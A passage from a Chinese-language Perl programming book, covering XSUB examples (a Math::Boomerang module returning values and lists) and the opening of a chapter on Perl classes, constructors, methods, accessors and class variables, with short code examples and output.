PERL_DL_NONLAZY=1 /usr/local/bin/perl -I./blib/arch -I./blib/lib
-I/usr/local/lib/perl5/sun4-sunos/5.005 -I/usr/local/lib/perl5 test.pl
1..1
ok 1
Random number: 90
```

**random** 函数只是返回一个值，不接受任何参数；当然，你可以随意在这里完善你的 C 代码，包括让它读取传递给它的值。请参阅下一节以了解更多详情。

## 向 XSUBs 传递值

向 **XSUBs** 传递值非常简单，你只需列出传递给 **XSUB** 的相应参数并声明它们的类型来支持传入的值。

下一个示例创建了一个新的 **XSUB**，名为 **boomerang**，它接受一个整数值并返回相同的值。首先，我为模块 **Math::Boomerang** 创建一个新的模板，该模块支持 **boomerang** 方法：

```
% h2xs -A -n Math::Boomerang
```

```
Writing Math/Boomerang/Boomerang.pm
Writing Math/Boomerang/Boomerang.xs
Writing Math/Boomerang/Makefile.PL
Writing Math/Boomerang/test.pl
Writing Math/Boomerang/Changes
Writing Math/Boomerang/MANIFEST
```

然后，我从 **Boomerang.pm** 中导出 **boomerang**：

```perl
package Math::Boomerang;

use strict;
use vars qw($VERSION @ISA @EXPORT);

require Exporter;
require DynaLoader;

@ISA = qw(Exporter DynaLoader);
# 默认导出到调用者命名空间的条目。注意：除非有非常充分的理由，
# 否则不要默认导出名称。请改用 EXPORT_OK。
# 不要简单地导出所有公共函数/方法/常量。
@EXPORT = qw(
boomerang
);
$VERSION = '0.01';
```

现在，我通过将以下代码添加到 Boomerang.xs 中来编写 **boomerang XSUB** 本身：

```c
#ifdef __cplusplus
extern "C" {
#endif
#include "EXTERN.h"
#include "perl.h"
#include "XSUB.h"
#ifdef __cplusplus
}
#endif

MODULE = Math::Boomerang       PACKAGE = Math::Boomerang

int
boomerang(value)
    int value
    CODE:
        RETVAL = value;
    OUTPUT:
        RETVAL
```

这就是全部所需。现在当你向 **boomerang** 传递一个整数值时，它就会返回该值。当然，你可以在 **XSUB** 参数列表中列出任意多个参数；实际上，**XSUBs** 甚至支持可变长度的参数列表。

在本节和上一节中，我只从 **XSUB** 返回了一个值。但是，如你所知，Perl 也可以处理列表，所以我将在下一节中介绍如何从 **XSUB** 返回列表以及如何接受可变数量的参数。

## 从 XSUBs 返回列表

上一节中的 **XSUB boomerang** 只接受一个参数并返回该参数，但你可以从 **XSUBs** 返回完整的列表。我将在本节中通过修改 **boomerang** 来接受一个列表并返回它，这也意味着处理可变数量的参数。

在 **XSUB** 中处理可变数量的参数有点复杂，因为你必须自己处理调用栈。我首先禁用原型，因为我要在 Boomerang.xs 中自行获取和返回值：

```c
PROTOTYPES: DISABLE
void
boomerang(...)
PPCODE:
{
    SV **arguments;
    arguments = New(0, arguments, items, SV *);
```

现在我有了一个用于存储传入值的数组，我将使用 C 的 **for** 循环中的 **ST** 宏从调用栈中取出这些值，并将它们存储到数组中，如下所示：

```c
PROTOTYPES: DISABLE
void
boomerang(...)
PPCODE:
{
    int loop_index;
    SV **arguments;
    arguments = New(0, arguments, items, SV *);

    for (loop_index = 0; loop_index < items; loop_index++) {
        arguments[loop_index] = ST(loop_index);
    }
```

此时，传递给 **XSUB** 的列表值已存储在名为 **arguments** 的数组中，这意味着我们已经能够读取传递给 **XSUB** 的列表。

我可以再编写一个循环，使用 **PUSHs** 函数将这些参数推入返回栈，以返回传递给 **boomerang** 的相同列表：

```c
PROTOTYPES: DISABLE
void
boomerang(...)
PPCODE:
{
    int loop_index;
    SV **arguments;
    arguments = New(0, arguments, items, SV *);

    for (loop_index = 0; loop_index < items; loop_index++) {
        arguments[loop_index] = ST(loop_index);
    }

    for (loop_index = 0; loop_index < items; loop_index++) {
        PUSHs(arguments[loop_index]);
    }

    Safefree(arguments);
}
```

请注意，在这段代码的末尾，我还使用 **Safefree** 释放了数组的内存。这就完成了 **XSUB** 代码。


# 第17章 创建包和模块

在使用 **make** 后，我将这段代码添加到 `test.pl` 中，以便向 **boomerang** 传递一个列表 `1..10`：

```
# Before 'make install' is performed this script should be runnable with
# 'make test'. After 'make install' it should work as 'perl test.pl'

####################### We start with some black magic to print on
# failure.

# Change 1..1 below to 1..last_test_to_print .
# (It may become useful if the test is moved to ./t subdirectory.)

BEGIN { $| = 1; print "1..1\n"; }
END {print "not ok 1\n" unless $loaded;}
use Math::Boomerang;
$loaded = 1;
print "ok 1\n";

####################### End of black magic.

# Insert your test code below (better if it prints "ok 13"
# (correspondingly "not ok 13") depending on the success of chunk 13
# of the test code):

print "boomerang returns: ", boomerang (1..10);
```

我通过如下方式使用 **make test** 来测试 **boomerang**：

```
%make test

PERL_DL_NONLAZY=1 /usr/local/bin/perl -I./blib/arch -I./blib/lib
-I/usr/local/lib/perl5/sun4-sunos/5.005 -I/usr/local/lib/perl5 test.pl
1..1
ok 1
boomerang returns: 12345678910
```

如你所见，**boomerang** 实现了其预期功能——接受一个列表并返回相同的列表。这个 **XSUB** 按预期工作。

请注意，创建更高级的 **XSUBs** 还有很多内容；更多信息请参阅 Perl 附带的 **XSUB** 文档。

# 第18章 创建类和对象

| 如果你需要以下内容的快速参考 | 请参见第： |
| --- | --- |
| 创建一个类 | 777 |
| 创建用于初始化对象的构造函数 | 777 |
| 向构造函数传递数据 | 779 |
| 从类创建对象 | 781 |
| 向构造函数传递数据 | 782 |
| 创建一个类方法 | 783 |
| 创建一个对象方法（实例方法） | 784 |
| 调用方法 | 787 |
| 在对象中存储数据（实例变量） | 789 |
| 创建数据访问方法 | 790 |
| 将实例方法和变量标记为私有 | 794 |
| 创建一个跨对象共享的类变量 | 795 |
| 创建一个析构函数 | 797 |
| 实现类继承 | 798 |
| 继承构造函数 | 800 |
| 继承实例数据 | 802 |
| 多重继承 | 804 |

# 深入探讨

面向对象编程（OOP）实际上只是另一种让你实现著名编程准则“分而治之”的技术。其核心思想是将数据和子程序（称为*方法*）*封装*到对象中，使每个对象半自治，将私有（即纯内部）数据和方法以避免它们混杂公共命名空间的方式封装起来。然后，对象可以通过其公共（即外部可调用）方法定义的良好接口与程序的其余部分进行交互。

面向对象编程最初是为了处理更大的程序而创建的，它将程序分解成功能单元。它将程序分解为子程序的思想更进一步，因为对象内部可以同时包含多个子程序和数据。将程序的各部分封装到对象中，让你能够轻松地进行概念化和处理，而不必显式地处理构成该对象内部的所有细节。

例如，想象一下你的厨房里塞满了管道、泵、压缩机以及用于保持食物冷藏的各种开关。每次食物温度过高时，你都必须手动打开压缩机、打开阀门并开始摇动泵。现在，将所有这些功能封装到一个对象中——一个冰箱——所有这些操作都在其内部处理，对象各部分之间的适当反馈也由对象内部自动处理。这就是封装背后的理念——将一个需要大量关注的复杂系统转变成一个对象，使其内部处理所有自身工作，并且可以轻松地概念化，就像一个冰箱。如果说面向对象编程的第一条准则是“分而治之”，那么第二条无疑是“眼不见，心不烦”。此外，面向对象编程使得在不同程序中重用代码变得容易。

在 Perl 中，面向对象编程是非常非正式的；事实上，几乎都是你自己完成的。Perl 的面向对象编程围绕几个关键概念展开：类、对象、方法和继承。这些术语定义如下：

-   一个*类*是一个可以提供*方法*的包。
-   一个*方法*是内置于类或子程序中的子程序。方法接收一个对象引用或类名作为其第一个参数传递给它。
-   一个*对象*是一个被引用的项，与其他引用不同，它知道自己属于哪个类。你从类创建对象。
-   *继承*是从另一个类（称为*基*类）派生出一个类（称为*派生*类）的过程，并能够在派生类中使用基类的方法。

所有这些构造对于面向对象编程都很重要，我们现在将详细介绍每一个。

## 类

在 Perl 中，一个类是一个向程序其他部分提供方法的包（方法是连接到对象或类的子程序）。在面向对象编程中，类为对象提供了一种模板。也就是说，如果你把类看作一个饼干模具，那么你从中创建的对象就是饼干。

你可以将一个类视为一个对象的*类型*（在像 Perl 这样的弱类型语言中，这种类比是成立的）。你使用一个类来创建一个对象，然后你可以从代码中调用该对象的方法。

要创建一个对象，你需要调用一个类的*构造函数*，它通常是一个名为 **new** 的方法。这个构造函数返回一个指向该类新对象的引用。在构造函数内部，使用 Perl 函数 **bless** 在一个引用（通常是对新对象内部数据的引用）和一个类之间建立连接，从而创建一个对象。（回想一下，对象只是一个知道自己属于哪个类的被引用项。）

看这个类 **Class1** 的示例，它支持一个名为 **new** 的构造函数。在构造函数中，我创建一个指向匿名哈希的引用，该哈希将用于保存对象的数据（当然，你不一定非得用哈希来保存数据；你也可以使用数组甚至标量），将该哈希 `bless` 到当前类，然后将该对象引用作为构造函数的返回值返回：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

return 1;
```

这就是全部内容了；在 Perl 中，一个类看起来就像前面的例子。如何创建这个类的对象呢？请看下一节。

## 对象

在 Perl 中，你称一个对象为一个类的*实例*，对象的子程序称为*实例方法*，或*成员函数*，或简称*方法*。除了内置子程序，你还可以在对象中存储数据项，这些项被称为*数据成员*或*实例数据*。所有类成员共有的数据项称为*类数据*。

要创建一个对象，你需要调用一个类的构造函数，该构造函数通常名为 **new**。在下面的例子中，我从之前开发的类 **Class1** 创建一个对象：

```
use Class1;
my $object1 = Class1->new();
```

然而，这个对象目前还不太有用，因为它不存储任何成员数据，也不支持任何方法。那么，如何向这个类（因此也向这个对象）添加方法呢？请看下一节。

# 方法

方法是内置于类中的子程序，因此也内置于你从该类创建的对象中。你通常将方法分为用于类内部的（称为*私有*方法）和用于类外部的（称为*公共*方法）。私有方法通常只在对象内部由对象的其他部分调用。例如，在本章开头介绍的冰箱例子中，当需要降温时，恒温器可能会调用一个完全内部的名为 **start_compressor** 的方法。

当你有一个支持方法的对象时，你可以像这样使用该对象的方法：我使用 **calculate** 方法处理 **$operand1** 和 **$operand2** 中的两个值，并将计算结果存储在 **$result** 中：

```
$result = $object1->calculate($operand1, $operand2);
```

Perl 有两种类型的方法：*类方法*和*实例方法*。

实例方法，就像这里的 **calculate** 示例，在对象上被调用（即，对象是类的实例），并且第一个参数传递给它们的是对象的引用。这意味着 **calculate** 实际上接收到了三个参数——对象的引用，后面跟着两个操作数。使用对象引用，你就知道是哪个对象调用了该方法。


另一方面，类方法是在类上调用的，并将该类的名称作为其第一个参数传递。例如，我们在上一节中看到的名为 **new** 的构造函数就是一个类方法：

```
my $object1 = Class1->new();
```

虽然方法本质上是包子程序，但你*不会*导出它们。相反，你需要通过完整的对象引用或类名来引用它们。

因此，在面向对象编程中，子程序被称为方法；那么对象内部的数据项呢？这类数据项被称为数据成员。

## 数据成员

你还可以将数据成员存储在对象中，正如我们将在本章中看到的那样，你甚至可以直接从对象中检索这些数据。例如，如果我使用键 **DATA** 将一个数据项存储在 **Class1** 的匿名哈希中，我可以这样读取该数据项：

```
my $data = $object1->{DATA};
```

然而，Perl 的惯例通常是将数据隐藏在访问方法之后，这意味着你不是直接检索数据，而是使用一个方法（比如名为 **getdata** 的方法）来读取数据：

```
my $data = $object1->getdata();
```

通过这种方式使用访问方法，你可以控制对对象数据的访问，从而防止程序的其他部分将该数据设置为你认为不合法的值。也就是说，你使用方法来定义对象与程序其余部分的接口。

在开始编写代码之前，我们还需要掌握一个面向对象的概念：继承。继承是面向对象编程的形式化定义特征之一。

## 继承

通过继承，你可以从一个旧类*派生*一个新类，新类将*继承*旧类的所有方法和成员数据。新类称为*派生类*，原始类称为*基类*。这里的理念是，你向新类添加所需的内容，使其拥有比基类更多定制化的功能。

例如，如果你有一个名为 **vehicle** 的类，你可以从 **vehicle** 派生一个名为 **car** 的新类，并添加一个新方法 **horn**，调用时会打印出 "beep"。通过这种方式，你从一个基类创建了一个新类，并用一个额外的方法扩展了该类。我们将在本章中了解如何使用继承，从其他类派生新类。

现在我们已经掌握了面向对象编程的概念，接下来让我们进入"快速上手"部分。

# 快速上手

# 创建类

"好的，"新手程序员说，"我现在开始学习面向对象编程了。我该怎么创建一个对象？" "首先，"你说，"你需要创建一个类。" "那要怎么做呢？" 新手程序员问道。 "比你想象的要简单，"你说。

在 Perl 中如何创建类？你只需使用一个包即可，比如下面这个例子，我创建了一个名为 **Class1** 的类：

```
package Class1;
return 1;
```

就这样，这就是一个类。

惊讶吗？别惊讶。一个类就是一个包。不过，通常类中内置了方法，包括一个非常重要的方法——构造函数，它让你能够创建新对象。详见下一个主题。

# 创建构造函数以初始化对象

"好的，"新手程序员说，"现在我有了新类。这很好，但我难道不应该能从这些类创建新对象吗？" "是的，"你说。 "那要怎么做呢？" 新手程序员问道。 "你需要使用构造函数，"你说，"它通常是一个名为 **new** 的方法。"

在 Perl 中，构造函数通常就是名为 **new** 的方法，它返回一个指向*被祝福*对象的引用。在 Perl 中，*祝福*一个对象意味着将其连接到一个类。当你使用 **bless** 函数祝福某个对象时，就将它添加为一个对象。

来看一个构造函数的例子；在这个例子中，我将为名为 **Class1** 的类创建一个构造函数：

```
package Class1;
return 1;
```

# 第 18 章 创建类和对象

构造函数通常名为 **new**，所以我创建一个同名的子程序：

```
package Class1;

sub new
{
    .
    .
    .
}

return 1;
```

在这个子程序中，我需要一些东西来祝福并作为该对象的基础返回，在 Perl 中，通常使用一个匿名哈希来实现这一点。你可以在这个哈希中存储数据成员，我们稍后会看到。

> **提示：** 你可能会疑惑为什么使用数据项（如哈希）作为 Perl 中对象的基础。原因是 Perl 实际上只在存储对象本身时才存储对象的数据，因为正是数据使对象具有独特性。因此，Perl 允许你祝福对象的数据，并将由此创建的引用视为对对象本身的引用。

在这个例子中，我将这个匿名哈希的引用命名为 **$self**：

```
package Class1;

sub new
{
    my $self = {};
    .
    .
    .
}

return 1;
```

现在剩下要做的就是将这个哈希祝福到当前对象中，并将该哈希的引用返回给构造函数的调用者，如下所示：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

return 1;
```

这个构造函数创建一个新的匿名哈希，将其祝福到当前对象中，并将该哈希的引用返回给构造函数的调用者。由于 **bless** 的作用，该引用随后充当对对象本身的引用。

# 向构造函数传递数据

构造函数不仅仅用于创建对象——你还可以在构造函数中初始化对象。例如，假设你想在创建对象时向其中存储两个数据项，并且这些数据项会传递给构造函数以初始化对象。你可以按照以下示例所示，将这些数据项存储在对象的匿名哈希中。请注意，传递给构造函数的第一个参数是其类名，在此我将其丢弃：

```
package Class1;

sub new
{
    my $self  = {};

    shift;
    $self->{DATA_ITEM_1} = shift;
    $self->{DATA_ITEM_2} = shift;

    bless($self);
    return $self;
}

return 1;
```

> *注意：构造函数是一个类方法，你可以这样使用：**Class1->new**——详见本章后面的"创建类方法"主题或"深入探讨"部分。*

现在，我已经将传递给对象的两个数据项使用键 **DATA_ITEM_1** 和 **DATA_ITEM_2** 存储在对象的匿名哈希中。当然，你也可以在构造函数中通过存储额外数据来初始化哈希，如下所示：

```
package Class1;

sub new
{
    my $self  = {};

    shift;
    $self->{DATA_ITEM_1} = shift;
    $self->{DATA_ITEM_2} = shift;
    $self->{DATA_ITEM_3} = 3;

    bless($self);
    return $self;
}

return 1;
```

请注意，由于类就是包，你可以使用 **BEGIN** 子程序来初始化对象中的数据。然而，你需要某种方式将该数据传递给构造函数本身，因为构造函数负责创建实际被祝福的对象。你可以通过在包中使用全局变量来实现这一点，如下所示：

```
package Class1;

my $data_item_3;

BEGIN
{
    $data_item_3 = 3;
}

sub new
{
    my $self = {};

    shift;
    $self->{DATA_ITEM_1} = shift;
    $self->{DATA_ITEM_2} = shift;
    $self->{DATA_ITEM_3} = $data_item_3;

    bless($self);
    return $self;
}

return 1;
```

这段代码在调用构造函数时初始化数据项 3。但请注意，这种方法仍然依赖于构造函数，因为实际对象是在构造函数中创建的。这意味着在实践中，你很少在类中使用 **BEGIN** 子程序。另一个问题是，类中的全局变量实际上是*类变量*，会在该类的所有对象之间共享（详见本章后面的"创建在对象间共享的类变量"主题），因此这样做会与其他对象产生冲突。结论是，你应该使用构造函数来初始化对象，而不是 **BEGIN** 子程序。

那么，下一步是什么？如何让构造函数实际创建对象？又如何引用通过构造函数存储的数据？详见下一个主题。

# 从类创建对象

> "好吧，"新手程序员说，"我已经创建了一个类和一个类构造函数。现在，我该如何创建该类的一个对象？" 你说，"你只需调用构造函数，它就会返回一个指向新对象的引用。"

要从类创建新对象，你需要调用该类的构造函数，它会返回一个指向新对象的引用。在这个例子中，我将调用上一主题中开发的构造函数来创建一个对象，如下所示：

```
my $object = Class1->new();

package Class1;

sub new
{
    my $self = {};
    bless($self);
    return $self;
}
```

我在这里创建了一个新对象，并将该对象的引用（不是对象本身）存储在 **$object** 中。请注意，你必须用你想要的对象所属的类名来限定 **new** 方法的调用，比如这样：**Class1->new**。

在这个例子中，我将所有代码（包括类定义）放在一个文件中。然而，由于类就是包，你可以将类定义放在另一个文件中。例如，我可以将类定义放在文件 Class1.pm 中，如下所示（请注意，这段代码必须像其他可加载模块一样在末尾返回 1）：

```
package Class1;

sub new
{
    my $self = {};
```

## 向构造函数传递数据

现在，在主代码中，我使用 **Class1** 并像这样创建一个对象：

```
use Class1;
my $object = Class1->new();
```

一些构造函数会接收传递给它们的数据来初始化对象，我们在上一主题中已经开发了这种构造函数的示例：

```
sub new
{
    my $self = {};

    shift;
    $self->{DATA_ITEM_1} = shift;
    $self->{DATA_ITEM_2} = shift;
    $self->{DATA_ITEM_3} = 3;

    bless($self);
    return $self;
}
```

这个构造函数接受两个参数，并以 **DATA_ITEM_1** 和 **DATA_ITEM_2** 作为键将它们存储在对象的内部哈希中。你可以像这样调用该构造函数：

```
my $object = Class1->new(1, 2);
```

现在，你可以通过 **$object->{DATA_ITEM_1}** 和 **$object->{DATA_ITEM_2}** 来引用存储在对象中的数据。查看完整示例：

```
my $object = Class1->new(1, 2);
```

```
print "Data item 1 = ", $object->{DATA_ITEM_1}, "\n";
print "Data item 2 = ", $object->{DATA_ITEM_2}, "\n";
```

```
package Class1;

sub new
{
    my $self = {};

    shift;
    $self->{DATA_ITEM_1} = shift;
    $self->{DATA_ITEM_2} = shift;
    $self->{DATA_ITEM_3} = 3;

    bless($self);
    return $self;
}
```

*Data item 1 = 1*
*Data item 2 = 2*

现在，我们已经创建了一些对象。然而，除非对象支持方法，否则这样的对象并没有太大用处；详情请参阅接下来的几个主题。

## 创建类方法

> "现在，我已经创建了一个对象，而且是一个很好的对象，"新手程序员说，"但它似乎什么也做不了。我能做的只是创建这种新类型的对象。" "很好，"你说，"下一步是为对象添加方法，这样你就可以与它进行交互。"

两种类型的方法是类方法和实例方法。你使用类名来调用类方法，使用对象引用来调用实例方法（即，对象是类的一个实例）。当你调用类方法时，类名本身会作为第一个参数传递给该方法。

构造函数就是类方法。在这个示例中，我在创建新对象时显示该对象的类名：

```
my $object1 = Class1->new();
```

```
package Class1;

sub new
{
    $class = shift;
    print "You're creating a new object of class $class.";

    my $self = {};
    bless($self);
    return $self;
}
```

You're creating a new object of class Class1.

你使用类方法来处理那些类范围的任务，例如返回该类支持的方法列表，如本示例所示：

```
print "Class1 supports these methods: ",
    join(", ", Class1->get_interfaces());

package Class1;

sub new
{
    $class = shift;
    my $self = {};
    bless($self);
    return $self;
}

sub get_interfaces {
    return 'new', 'get_interfaces';
}
```

Class1 supports these methods: new, get_interfaces

此功能非常有用，因为你可以查询一个类支持哪些方法，而不必创建该类的对象。

在实践中，类方法很少使用传递给它们的类名，因为它们已经知道自己所在的类。例外情况发生在你从基类派生子类时，此时基类的类方法可以使用传递给它的新类名来了解它所在的类。

## 创建对象方法（实例方法）

"好的，"新手程序员说，"现在我了解了类方法。但我现在不想创建任何与整个类一起使用的方法。我想创建可以与特定对象一起使用的方法来开始一些数据处理。" "很好，"你说，"创建实例方法而不是类方法。"

当你调用类方法时，类名会作为参数列表中的第一个参数传递给该方法。

另一方面，当你调用对象的方法（即类的实例）时，称为实例方法，该对象的引用会作为第一个参数传递给该方法。使用该引用，你可以访问对象的内部数据和方法。

在实例方法中，你不需要使用对象引用。这个名为 **addem** 的示例实例方法完全丢弃了该引用，将接下来传递给它的两个值相加，并返回它们的和：

```
sub addem
{
    ($object, $operand1, $operand2) = @_;
    return $operand1 + $operand2;
}
```

请注意，如果你使用 **-w** 开关，你会收到一个警告，提示被丢弃的变量 **$object** 只使用了一次，你可以像这样修复它：

```
sub addem
{
    shift;
    ($operand1, $operand2) = @_;
    return $operand1 + $operand2;
}
```

使用 **my** 声明变量也可以解决这个问题：

```
sub addem
{
    my ($object, $operand1, $operand2) = @_;
    return $operand1 + $operand2;
}
```

我在代码中像这样使用这个实例方法：

```
$math_object = Class1->new();
```

```
print "2 + 2 = ", $math_object->addem(2, 2);
```

```
package Class1;

sub new
{
    my $class = shift;
    my $self = {};
    bless($self);
    return $self;
}

sub addem
{
    my ($object, $operand1, $operand2) = @_;
    return $operand1 + $operand2;
}

2 + 2 = 4
```

然而，如果你想使用对象内部的数据，你应该使用对象引用来访问该数据。

在下面的示例中，我创建了一个名为 **data** 的实例方法，可以用来获取或设置对象中的数据项。传递给此方法的第一个参数是对象本身的引用，我使用该引用将数据存储在对象的匿名哈希中（如果该方法被传递了要存储的数据），然后返回存储数据的值，如下所示：

```
package Class1;

sub new
{
    my $type = {};
    bless($type);
    return $type;
}

sub data
{
    my $self = shift;
    if (@_) {$self->{DATA} = shift;}
    return $self->{DATA};
}

return 1;
```

请注意，你可以以两种方式使用此实例方法：如果传递数据给它存储，它将存储该数据并返回新值。另一方面，如果不向 data 传递任何内容，它将返回对象中存储的数据项的当前值。

你像这样使用这个新方法：

```
use Class1;

my $object1 = Class1->new();
$object1->data("Hello!");

print "Here's the text in the object: ", $object1->data;
```

*Here's the text in the object: Hello!*

## 调用方法

"我现在开始创建新方法了，"新手程序员说。"除了使用 -> 运算符，我还能用其他方式调用方法吗？" "嗯，"你说，"我确实知道另一种方式。"

在 Perl 中，你可以用两种方式调用方法。第一种是我们已经见过的，使用 -> 运算符，对类方法和实例方法都像这样使用：

```
$math_object = Class1->new();
print "2 + 2 = ", $math_object->addem(2, 2);

package Class1;

sub new
{
    my $class = shift;
    my $self  = {};
    bless($self);
    return $self;
}

sub addem
{
    my ($object, $operand1, $operand2) = @_;
    return $operand1 + $operand2;
}

2 + 2 = 4
```

你也可以在类内部的代码中使用 -> 中缀解引用操作符，如本例所示，我在构造函数中将数据项初始化为零：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    $self->data(0);
    return $self;
}

sub data
{
    my $self = shift;
    if (@_) {$self->{DATA} = shift;}
    return $self->{DATA};
}

return 1;
```

现在，来看看调用方法的第二种技术。如果你的代码在类内部，你也可以使用这种语法进行前面的方法调用，其中我将当前对象的引用作为第一个参数传递给方法：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    data ($self, 0);
    return $self;
}

sub data
{
    my $self = shift;
    if (@_) {$self->{DATA} = shift;}
    return $self->{DATA};
}

return 1;
```

你能获取方法的代码引用吗？如果你记得 Perl 中类实际上就是包，你就可以，如本例所示：

```
$math_object = Class1->new();
$coderef = \&Class1::addem;

print "2 + 2 = ", &$coderef(0, 2, 2);
```

```
package Class1;

sub new
{
    shift;
    my $self = {};
    bless($self);
    return $self;
}

sub addem
{
    my ($object, $operand1, $operand2) = @_;
    return $operand1 + $operand2;
}

2 + 2 = 4
```

然而，使用此示例有些取巧，因为它超出了面向对象技术的范围（并且在使用 **-w** 编译时会产生警告）。请参阅第 19 章了解获取方法引用的更好方式。

| 相关解决方案 | 所在页码 |
| --- | --- |
| 创建方法的引用 | 829 |

## 在对象中存储数据（实例变量）

新手程序员非常高兴，说道："现在，我已经能够在我的类中创建各种方法了，但我还有一个问题。" "什么问题？"你问道。新手程序员继续说："我如何在这些对象中存储数据？" "没问题，"你说。

你存储在对象中的数据被称为对象数据或实例数据，因为对象是类的一个实例，而你用来存储这些数据的变量被称为对象变量或实例变量。类或对象的各个数据项被称为数据成员。


## 第18章 创建类和对象

在对象中存储实例数据的一种方式——事实上也是最常见的方式——是在对象中创建一个匿名哈希，并通过键来存储数据值。（你也可以使用其他构造，例如数组、标量甚至代码引用，但更推荐使用哈希，因为当一个类被继承时，哈希通常表现更好；详情请参见本章后面的“继承实例数据”主题。）例如，我使用键 **NAME** 来存储一个人的姓名，如下所示：

```
package Class1;

sub new
{
    my $self = {};
    $self->{NAME} = "Christine";
    bless($self);
    return $self;
}

return 1;
```

现在，当你创建该类的一个对象时，你可以这样引用该对象中的数据：

```
use Class1;

my $object1 = Class1->new();

print "The person's name is ", $object1->{NAME}, "\n";
```

> The person's name is Christine

然而，正如我在本章开头提到的，Perl 的方式通常是将数据隐藏在访问方法之后，这意味着你不是直接检索数据，而是创建并使用一个名为 **getdata**（例如）的方法来返回当前的数据值。详情请参见下一个主题。

## 创建数据访问方法

“那个讨厌的约翰逊，”新手程序员说，“一直在乱动我的对象，修改里面的各种数据。”“这是个问题，”你说，“你应该开始使用数据访问方法来限制对这些数据的访问。”“没错！”新手程序员说，“这就能让那个讨厌的约翰逊好看。”

你可以使用数据访问方法来限制对对象实例数据的访问。你通常会创建一对方法——一个 **get** 方法和一个 **set** 方法——来提供对数据的访问。

例如，假设你有一个类，就像前面的例子中那样，将一个人的姓名存储为其数据：

```
package Class1;

sub new
{
    my $self  = {};
    $self->{NAME} = "Christine";
    bless($self);
    return $self;
}

return 1;
```

正如你在前面的主题中所看到的，你可以从类外部的代码直接访问该数据：

```
use Class1;

my $object1 = Class1->new();

print "The person's name is ", $object1->{NAME}, "\n";
```

*The person's name is Christine*

然而，使用 **get** 和 **set** 方法通常要好得多——特别是对于敏感数据。在这种情况下，我将这两个方法称为 **get_name** 和 **set_name**，并将它们都添加到包 **Class1** 中。

在 **get_name** 中，我可以获取当前对象的引用，并用它来返回存储在对象匿名哈希中的姓名，如下所示：

```
sub get_name
{
    $self = shift;
    return $self->{NAME};
}
```

在 **set_name** 中，我允许调用代码设置存储在对象中的姓名，如下所示：

```
sub set_name
{
    $self = shift;
    $self->{NAME} = shift;
}
```

请注意，你通常在 **set** 方法中实现安全性检查。例如，我可以检查调用代码试图存储在对象中的数据，如果发现某些问题，我不更改内部数据，而是返回一个表示错误的值，例如 **undef**。

我在代码中这样使用新的 **get** 和 **set** 方法：

```
use Class1;

my $object = Class1->new();
$object->set_name('Nancy');
```

```
print "The person's name is ", $object->get_name(), "\n";
```

*The person's name is Nancy*

请注意，你不一定需要使用 **get** 和 **set** 方法，但如果其他人将使用你的代码，并且你对想要存储的数据施加了一些限制，那么数据访问方法就是为你准备的。

还要注意的是，如果其他程序员愿意，他们编写的代码仍然可以访问匿名哈希中的 **NAME** 元素。如果你真的想要数据隐私，最好不要将你的数据作为实例数据存储在对象创建时被祝福的哈希中。相反，你可以考虑将你的数据存储为*类变量*，就像本例中这样，我将一个人的姓名存储在标量 **$name** 中：

```
package Class1;

my $name = "Christine";

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

sub get_name
{
    return $name;
}

sub set_name
{
    shift;
    $name = shift;
}

return 1;
```

现在，你可以通过数据访问方法访问该数据——而不是直接访问——像这样：

```
use Class1;

my $object = Class1->new();
$object->set_name('Nancy');

print "The person's name is ", $object->get_name(), "\n";
```

*The person's name is Nancy*

然而，这里有一个陷阱；因为这是一个类变量，它并不局限于特定对象；相反，它在所有存在的该类对象之间共享。这意味着对于类 **Class1** 的所有对象，只存在一个 **$name**。你可以在下面的例子中更直接地理解我的意思；注意，我将名字 **Nancy** 放入了 **$object1**，但当我打印 **$object2** 中的名字时，它也是 **Nancy**，尽管默认名字是 **Christine**：

```
use Class1;

my $object1 = Class1->new();
my $object2 = Class1->new();

$object1->set_name('Nancy');

print "The person's name is ", $object2->get_name(), "\n";
```

*The person's name is Nancy*

如你所见，对于该类的所有对象，任何给定的类变量只存在一个副本。有关类变量的更多详细信息，请参见本章后面的“创建跨对象共享的类变量”主题。

不想使用共享的类变量来确保数据隐私？一个更好的方法是使用闭包让你的数据真正私有。

| 相关解决方案： | 查找页面： |
| :--- | :--- |
| 使用闭包创建私有数据成员 | 823 |

## 将实例方法和变量标记为私有

“那个讨厌的约翰逊，”新手程序员说，“一直在调用我认为是其对象内部的方法。难道我不能用某种方式使方法和数据成员完全私有吗？”“不容易，”你说，“尽管你可以通过约定来实现。”新手程序员说，“这就能让那个讨厌的约翰逊好看。”

尽管许多面向对象语言支持私有实例方法和数据成员（即类或对象内部且外部无法访问的实例方法和数据成员），但 Perl 并*没有*明确地这样做。（但是，请注意，我将在第19章中整理出一种使对象数据和方法私有的方法。）

请注意，你可以使用带有 **my** 的词法声明来将变量的作用域限制在包内，从而创建一个类变量；有关更多详细信息，请参见本章后面的“创建跨对象共享的类变量”主题。然而，在当前主题中，我谈论的是实例变量，而不是类变量。类变量（以及这些变量中的值）在类的所有对象之间共享，而实例变量（以及这些变量中的值）则特定于一个特定对象。要了解如何创建实例变量，请参见本章前面的“在对象中存储数据（实例变量）”主题。

在 Perl 中，你可以通过使用一种*约定*来将实例方法和变量声明为私有：在它们前面加一个下划线 _。在 Perl 中，与 C++ 等语言不同，这并不意味着你*不能*访问对象的私有变量和方法；其理念是，如果它们以下划线开头，你*不应该*这样做，因为它们意在保持私有。

在以下示例中，一个名为 **sum** 的公共方法使用类私有的方法 **_add** 来将两个值相加：

```
package Class1;

sub new
{
    my $type   = {};
    $type->{OPERAND1} = 2;
    $type->{OPERAND2} = 2;
    bless($type);
    return $type;
}

sub sum
{
    my $self = shift;
    my $temp = _add ($self->{OPERAND1}, $self->{OPERAND2});
    return $temp;
}

sub _add {return shift() + shift();}

return 1;
```

使用 **sum** 方法的结果如下：

```
use Class1;

my $object1 = Class1->new();

print "Here's the sum: ", $object1->sum;
```

> Here's the sum: 4

不想使用这种约定来确保数据隐私？一种更强有力的方法来使你的对象数据真正私有的是使用闭包。

| 相关解决方案： | 查找页面： |
|---|---|
| 使用闭包创建私有数据成员 | 823 |
| 使用匿名子程序创建私有方法 | 826 |

## 创建跨对象共享的类变量

新手程序员说：“我想能够跟踪从我的类创建的对象总数。我能做什么？”“一个好方法是创建一个类变量，”你说。

